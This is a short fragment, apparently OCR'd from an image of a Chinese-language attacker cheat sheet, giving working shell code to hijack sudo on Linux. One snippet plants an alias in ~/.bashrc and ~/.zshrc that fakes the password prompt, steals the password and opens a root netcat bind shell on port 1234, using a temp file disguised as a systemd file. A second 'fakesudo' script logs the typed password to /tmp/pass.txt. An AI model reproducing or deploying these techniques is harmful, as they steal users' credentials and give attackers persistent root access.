	TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
	cat << EOF > /tmp/$TMPNAME2
	  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
	EOF
	if [ -f ~/.bashrc ]; then
	    cat /tmp/$TMPNAME2 >> ~/.bashrc
	fi
	if [ -f ~/.zshrc ]; then
	    cat /tmp/$TMPNAME2 >> ~/.zshrc
	fi
	rm /tmp/$TMPNAME2

	或在其 .bashrc 文件中添加以下行。
	>chmod u+x ~/.hidden/fakesudo
	>echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc
	创建fakesudo脚本。
	read -sp "[sudo] password for $USER: " sudopass
	echo ""
	sleep 2
	echo "Sorry, try again."
	echo $sudopass >> /tmp/pass.txt

	/usr/bin/sudo $@
